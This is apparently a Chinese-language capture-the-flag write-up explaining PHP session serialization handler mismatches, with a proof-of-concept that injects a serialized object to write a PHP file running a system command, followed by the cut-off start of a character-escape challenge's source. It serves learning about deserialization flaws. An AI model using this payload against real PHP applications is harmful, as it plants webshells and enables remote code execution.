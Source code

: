 **在处理器不同的情况下，假如序列化和反序列化使用的处理器不同，就会形成漏洞**

看一下不同引擎的存储方式的不同之处：

- php_binary：存储方式是，键名的长度对应的ASCII字符+键名+经过serialize()函数序列化处理的值

- php：存储方式是，键名+竖线+经过serialize()函数序列处理的值（key | value）

- php_serialize(php>5.5.4)：存储方式是，经过serialize()函数序列化处理的值 

  ![](https://i.loli.net/2021/10/19/IzvkafCy1AXGtx3.png)

 利用`|`分割键名键值的机制写入木马

关键代码：

- index.php，写入cookie
- check.php，通过 `$_SESSION['limit']=base64_decode($_COOKIE['limit']);` 将session写入session文件
- inc.php， `ini_set('session.serialize_handler', 'php');` 和 `session_start();` ，只要访问即会获取之前写入的 `session` 数据触发反序列化，
  因为check.php包含了inc.php，就会触发析构函数，就可以利用`file_put_contents`写入名为`log-.$this->username`，内容为`$this->password`的文件；
  然后访问文件即可（注意这里文件名前拼接了`log-`）
  ![](https://i.loli.net/2021/10/18/1uNMrUtIpafoGFT.png)

poc：

```php
<?php

class User{
    public $username = 'a.php';
    public $password = '<?php system("cat flag.php") ?>';
}


$a = new User();
echo base64_encode('|'.serialize($a));

```

## 264 字符逃逸（session传值）

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-03 02:37:19
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-03 16:05:38
# @message.php
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


error_reporting(0);
session_start();

class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
```